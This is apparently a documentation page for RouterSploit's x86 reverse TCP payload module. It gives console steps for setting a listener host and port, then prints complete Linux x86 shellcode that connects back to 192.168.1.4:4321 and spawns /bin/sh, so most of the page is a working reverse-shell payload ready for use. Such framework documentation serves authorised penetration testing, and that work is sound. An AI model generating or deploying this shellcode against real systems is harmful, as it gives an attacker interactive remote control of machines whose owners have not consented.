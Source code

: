 ## Description

Module generates payload that creates interactive tcp reverse shell for X86 architecture.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use payloads/x86/reverse_tcp`
  3. Do: `set lhost 192.168.1.4`
  4. Do: `set lport 4321`
  5. Module generates x86 reverse shell tcp payload

## Scenarios

```
rsf > use payloads/x86/reverse_tcp
rsf (X86 Reverse TCP) > set lhost 192.168.1.4
[+] lhost => 192.168.1.4
rsf (X86 Reverse TCP) > set lport 4321
[+] lport => 4321
rsf (X86 Reverse TCP) > run
[*] Running module...
[*] Generating payload
[+] Building payload for python
payload = (
    "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
    "\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\xc0\xa8\x01\x04\x68"
    "\x02\x00\x10\xe1\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1"
    "\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3"
    "\x52\x53\x89\xe1\xb0\x0b\xcd\x80"
)
```
